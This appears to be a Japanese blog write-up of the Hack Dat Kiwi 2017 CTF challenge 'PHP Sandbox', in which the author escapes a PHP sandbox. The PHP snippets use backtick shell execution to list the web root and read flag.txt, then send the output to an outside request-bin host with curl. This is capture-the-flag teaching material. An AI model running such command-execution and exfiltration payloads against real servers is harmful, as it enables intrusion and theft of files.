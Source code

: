 ```yaml
---
layout: post
title: Hack Dat Kiwi 2017 の write-up
categories: [ctf]
date: 2017-10-16 15:55:00 +0900
---
```


チーム Harekaze で [Hack Dat Kiwi 2017](http://hack.dat.kiwi/) に参加しました。最終的にチームで 150 点を獲得し、順位は得点 307 チーム中 179 位でした。うち、私は 1 問を解いて 150 点を入れました。

以下、解いた問題の write-up です。

## [Experimental 150] PHP Sandbox

与えられた URL にアクセスすると、PHP のコードを入力するフォームが表示されました。

試しに以下のコードを入力してみると、`Hello!` と出力されました。

```php
<?php echo 'Hello!';
```

以下のコードを入力してみると、今度は何も出力されませんでした。

```php
<?php echo `ls`;
```

外部に出力を行うことでコマンドを実行した結果が得られないか、以下のコードを入力してみると `flag.txt index.php php-emul sandbox.php` というデータが `https://requestb.in/xxxxxxxx` に POST されました。

```php
<?php
$res = `ls /var/www/html/`;
echo `curl https://requestb.in/xxxxxxxx -d "$res"`;
```

以下のコードを入力するとフラグが得られました。

```php
<?php
$res = `cat /var/www/html/flag.txt`;
echo `curl https://requestb.in/xxxxxxxx -d "$res"`;
```

```
go-sandbox-yourself-with-a-kiwi
```